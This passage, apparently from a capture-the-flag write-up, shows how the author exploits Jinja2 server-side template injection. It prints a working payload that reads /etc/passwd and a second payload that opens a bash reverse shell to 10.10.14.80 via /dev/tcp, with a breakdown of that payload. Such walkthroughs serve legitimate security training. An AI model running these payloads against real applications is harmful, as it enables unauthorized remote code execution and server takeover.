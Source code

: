 -   **I then request the archive again and see the following**:
    -   {{< figure src="/ox-hugo/2024-12-20-173639_.png" >}}
    -   If we cross-reference that with the image &amp; table I have above we can see that the only payloads that were processed were the final two `{{7*7}}` &amp; `{{7*'7'}}` and given their responses, `49` for payload 1 and `7777777` for payload 2 we know that this template engine is `jinja2`.


#### RCE POC: {#rce-poc}

-   Even though the above does prove RCE I want to verify this further.
-   I create a new post with the following content as if we have RCE the `/etc/passwd` file is world readable so can confirm.
    ```python
    {{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/passwd').read() }}
    ```

    -   {{< figure src="/ox-hugo/2024-12-20-174937_.png" >}}
    -   I save it then navigate to `/archive` in order for the SSTI template engine to process the payload.
    -   {{< figure src="/ox-hugo/2024-12-20-175222_.png" >}}
        -   We have RCE, let's get a shell.


## 2. Foothold: {#2-dot-foothold}


### Getting a reverse shell via SSTI: {#getting-a-reverse-shell-via-ssti}

-   I repeat the same process with this payload:



```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__%}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.14.80/9967 0>&1'").read()}}{%endif%}{%endfor%}
```

-   {{< figure src="/ox-hugo/2024-12-20-180031_.png" >}}
-   {{< figure src="/ox-hugo/2024-12-20-180116_.png" >}}

-   **Reverse shell caught**:
    -   {{< figure src="/ox-hugo/2024-12-20-180136_.png" >}}


#### Exploit/Reverse Shell Breakdown: {#exploit-reverse-shell-breakdown}

The payload:

```python
{% for x in ().__class__.__base__.__subclasses__() %}
    {% if "warning" in x.__name__ %}
        {{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.14.80/9967 0>&1'").read()}}
    {% endif %}
{% endfor %}
```
